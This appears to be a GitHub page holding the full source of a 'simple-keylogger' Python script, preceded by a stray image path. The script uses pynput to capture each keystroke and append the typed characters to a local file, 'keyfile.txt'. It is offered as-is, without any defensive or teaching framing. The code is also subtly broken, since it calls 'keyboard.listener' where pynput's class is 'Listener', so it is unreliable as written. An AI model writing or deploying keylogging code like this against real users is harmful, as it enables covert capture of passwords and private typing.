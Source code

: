 
# simple-keylogger
from pynput import keyboard

def keypressed(key):
	print(str(key))
	with open("keyfile.txt", "a") as logkey:
		try:
			char = key.char
			logkey.write(char)
		except:
			print("Error getting char")
	
if __name__ == "__main__":
	listener = keyboard.listener(on_press=keypressed)
	listener.start()
	input()
